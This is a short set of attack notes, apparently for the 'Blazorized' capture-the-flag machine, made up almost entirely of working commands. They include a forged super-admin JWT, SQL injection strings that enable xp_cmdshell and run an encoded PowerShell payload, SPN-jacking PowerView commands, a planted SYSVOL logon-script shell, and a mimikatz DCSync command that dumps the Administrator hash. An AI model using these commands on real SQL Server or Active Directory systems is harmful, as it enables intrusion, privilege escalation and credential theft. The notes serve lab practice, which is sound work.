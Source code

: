 # Blazorized

JWT:

{

  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  
  "iss": "http://api.blazorized.htb",
  
  "aud": "http://admin.blazorized.htb",
  
  "exp": 1740000000
  
}



Inject:

www'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -

www'; exec master..xp_cmdshell 'powershell#3base64';-- -



SPN Jacking

https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking

https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/

Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='xx/xx'}

Get-DomainSPNTicket -SPN xx/xx



Login bat:

'powershell #3 base64 payload'| Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\shell.bat -Encoding ASCII



Set ScriptPath:

Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\shell.bat'


Get NTLM Hash:

lsadump::dcsync /domain:blazorized.htb /user:Administrator
